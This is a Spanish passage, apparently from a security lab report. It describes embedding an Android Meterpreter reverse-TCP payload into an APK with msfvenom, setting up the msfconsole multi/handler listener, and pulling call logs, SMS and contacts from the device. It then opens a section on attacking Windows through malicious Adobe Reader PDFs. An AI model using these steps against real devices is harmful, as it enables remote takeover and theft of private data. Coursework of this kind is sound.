 \begin{itemize}
    \item \texttt{-p android/meterpreter/reverse\_tcp}: con este parámetro le indicamos a \texttt{msfvenom} que el \emph{payload} (código adicional) que queremos inyectar en la aplicación \emph{app.apk} realice una conexión TCP con la IP <IP> al puerto <PUERTO\_DE\_ESCUCHA>  
    \item \texttt{LHOST}: dirección IP a la cual conectarse
    \item \texttt{LPORT}: puerto al cual establecer la conexión 
\end{itemize}

Una vez instalada la aplicación en el dispositivo Android al cual se desea atacar, se debe ejecutar la consola de \emph{Metasploit} (con el comando \texttt{msfconsole}), e ingresar lo siguiente:

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

\begin{figure}[H]
    \centering
    \texttt{[image: meterpreter-android]}
    \caption{Conexión desde \texttt{msfconsole} a un dispositivo Android}
\end{figure}

Dentro del directorio  se incluyen los archivos correspondientes a una recuperación del registro de llamadas, de mensajes de texto enviados y recibidos, y de la lista de contactos del dispositivo Android.

\subsection{Windows}

\emph{Basado en ejemplo aterior, como realizaría el mismo ataque contra un equipo Microsoft Windows. Puede utilizar un archivo PDF como vector de ataque} 

Dentro de la suite de programas de Adobe, uno de los más usado es su lector de PDFs, \textbf{Adobe Reader}. Este programa posee varias vulnerabilidades de las cuales uno se puede aprovechar para inyectar código malicioso en un archivo PDF. De las vulnerabilidades disponibles, a continuación se mostrará cómo explotar dos de ellas disponibles en Metasploit.

